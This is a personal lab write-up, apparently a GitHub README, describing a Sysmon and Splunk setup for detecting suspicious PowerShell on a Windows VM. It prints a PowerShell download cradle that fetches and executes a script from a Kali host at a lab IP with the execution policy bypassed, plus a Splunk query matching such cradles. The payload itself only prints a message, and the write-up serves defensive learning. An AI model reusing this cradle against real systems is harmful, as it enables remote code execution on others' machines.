









# SOC Threat Hunting Lab - Initial Telemetry and PowerShell Detection Setup

## Overview

After building my earlier network security lab with OPNsense, Suricata, and Wazuh, I wanted to move toward a more SOC-focused workflow where I could generate telemetry, ingest logs into a SIEM, and investigate suspicious activity like a SOC analyst.

For this lab, I used:

- Kali Linux as the attacker machine
- Windows VM as the target system
- Sysmon for advanced Windows telemetry
- Splunk as the SIEM platform

The goal was to simulate suspicious PowerShell activity from Kali Linux, send the logs into Splunk, and verify that the activity could be detected and investigated through SIEM searches.

## Lab Architecture



In this setup, Kali Linux was used to host and execute a PowerShell payload against the Windows VM. Sysmon and PowerShell logging generated telemetry on the Windows machine, which was then ingested into Splunk for investigation and threat hunting.

This setup helped me better understand how telemetry is generated on endpoints and how SOC analysts investigate suspicious behavior using SIEM platforms.

## Installing and Configuring Sysmon

Windows event logs alone do not provide enough visibility into attacker behavior, especially for PowerShell execution, process creation, and command-line activity. To improve telemetry collection, I installed Sysmon using the SwiftOnSecurity configuration.

The SwiftOnSecurity Sysmon configuration is widely used because it enables detailed logging while filtering unnecessary noise.

I installed Sysmon, accepted the EULA, and verified that the Sysmon service was successfully running on the Windows VM.



## Installing Splunk

After setting up Sysmon, I installed Splunk Enterprise on the Windows VM to use as the SIEM platform for log ingestion and investigation.

Splunk would allow me to:
- ingest Windows logs
- search telemetry using SPL queries
- investigate suspicious activity
- build detections and dashboards later in the project

The screenshot below shows the initial Splunk dashboard after installation.



## Configuring Splunk Log Ingestion

Once Splunk was installed, I needed to configure it to ingest the Windows event logs generated by Sysmon and PowerShell activity.

I modified the `inputs.conf` file and enabled the following log sources:

- Application
- System
- Security
- Microsoft-Windows-Sysmon/Operational
- Windows PowerShell

Each source was configured with `disabled = 0` so Splunk would actively ingest the logs.



## Verifying Sysmon Log Ingestion

After configuring the inputs, I verified that Sysmon logs were successfully flowing into Splunk.

I used the SPL query:

```spl
EventCode=1
```

This query searches for Sysmon Process Creation events, which are extremely important during threat hunting because they show:
- executed processes
- parent-child relationships
- command-line activity
- PowerShell execution

The screenshot below confirms that Sysmon telemetry was successfully being ingested into Splunk.



## Enabling PowerShell Module Logging

To improve visibility into PowerShell activity, I enabled PowerShell Module Logging through the Local Group Policy Editor.

This was important because attackers commonly abuse PowerShell for:
- payload execution
- downloading malicious content
- in-memory execution
- lateral movement

I enabled module logging and added the wildcard `*` so all PowerShell modules would be logged.



## Creating and Hosting a PowerShell Payload

After the logging setup was complete, I moved to Kali Linux to simulate suspicious PowerShell activity.

I created a payload directory and then created a file named `shell.ps1` containing:

```powershell
Write-Host "Malicious PowerShell Executed"
```

The purpose of this step was not to create actual malware, but to simulate attacker-style PowerShell execution and generate telemetry that could later be investigated inside Splunk.



## Hosting the Payload and Executing it on Windows

Next, I hosted the payload using Python's built-in HTTP server on Kali Linux.

From the Windows machine, I executed the following PowerShell command:

```powershell
powershell -ExecutionPolicy Bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.200.200.30:8080/shell.ps1')"
```

This command simulated a common attacker technique where PowerShell downloads and executes remote content directly in memory.

The screenshot below shows:
- the Python HTTP server running on Kali
- the GET request for `shell.ps1`
- the PowerShell execution on Windows
- the payload successfully executing



## Investigating the Activity in Splunk

After executing the payload, I returned to Splunk and searched for suspicious PowerShell activity using the following SPL query:

```spl
powershell AND (Invoke-WebRequest OR IEX OR DownloadString)
```

This query helped identify:
- PowerShell execution
- download cradle behavior
- suspicious scripting activity
- attacker-style command execution

The logs generated from the PowerShell execution were successfully visible inside Splunk, confirming that:
- Sysmon telemetry was working
- PowerShell logging was enabled
- Splunk ingestion was functioning correctly
- suspicious activity could be investigated through SPL searches



## Key Lessons Learned

Through this lab, I learned:
- how Sysmon improves Windows telemetry visibility
- how Splunk ingests and indexes Windows event logs
- how PowerShell logging helps detect attacker behavior
- how common PowerShell download cradles work
- how SOC analysts investigate suspicious activity using SPL queries

This lab also helped me better understand the relationship between:
- endpoint telemetry
- SIEM ingestion
- detection engineering
- threat hunting workflows

## What's Next

The next phase of the lab will focus on using Atomic Red Team to simulate real MITRE ATT&CK techniques on the Windows machine.

The plan is to:
- install and configure Atomic Red Team
- execute MITRE ATT&CK simulations
- investigate the generated telemetry in Splunk
- build a SOC-style dashboard
- create incident investigation workflows

The upcoming simulations will include:
- credential dumping
- scheduled task persistence
- WMI execution
- PowerShell abuse

This will move the lab closer to a realistic SOC threat hunting and incident response workflow.
